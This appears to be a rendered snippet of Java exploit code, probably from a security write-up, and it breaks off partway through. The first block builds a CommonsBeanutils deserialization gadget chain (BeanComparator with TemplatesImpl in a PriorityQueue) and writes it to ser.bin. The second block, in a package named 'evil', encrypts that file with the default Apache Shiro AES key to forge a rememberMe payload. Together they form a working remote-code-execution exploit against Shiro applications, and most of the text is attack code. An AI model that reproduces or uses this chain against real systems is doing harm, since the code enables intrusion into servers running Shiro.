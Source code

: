 ```java
BeanComparator objectBeanComparator = new BeanComparator("outputProperties", new AttrCompare());
PriorityQueue priorityQueue = new PriorityQueue<>();
Class aClass = priorityQueue.getClass();
Field comparator = aClass.getDeclaredField("comparator");
comparator.setAccessible(true);
comparator.set(priorityQueue,objectBeanComparator);

Field size = aClass.getDeclaredField("size");
size.setAccessible(true);
size.set(priorityQueue,2);

Field queue = aClass.getDeclaredField("queue");
queue.setAccessible(true);
queue.set(priorityQueue,new Object[]{templates,templates});


serialize(priorityQueue);
unserialize("ser.bin");
```

```java
package evil;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.UUID;

public class AESFileProcessor {
    private static final String key = "kPH+bIxk5D2deZiIxcaaaA=="; // Base64 格式的密钥
    private static final int AES_BLOCK_SIZE = 16; // AES块大小为16字节

    public static void main(String[] args) throws Exception {
        // 读取二进制文件内容
        byte[] fileData = getFileData("C:\\Users\\xinyi\\Desktop\\java测试\\cb\\ser.bin");

        // 加密
        String encryptedData = aesEncrypt(fileData);
        System.out.println("加密后的数据: " + encryptedData);

        // 解密
//        byte[] decryptedData = aesDecrypt(encryptedData);
//        System.out.println("解密后的数据: " + new String(decryptedData));
    }

    /**
     * 从文件读取数据
     *
     * @param fileName 文件路径
     * @return 文件内容（字节数组形式）
     * @throws IOException 文件读取错误时抛出
     */
    public static byte[] getFileData(String fileName) throws IOException {
        return Files.readAllBytes(Paths.get(fileName));
    }

    /**
     * AES 加密
     *
     * @param data 明文数据（字节数组）
     * @return 加密后的 Base64 数据
```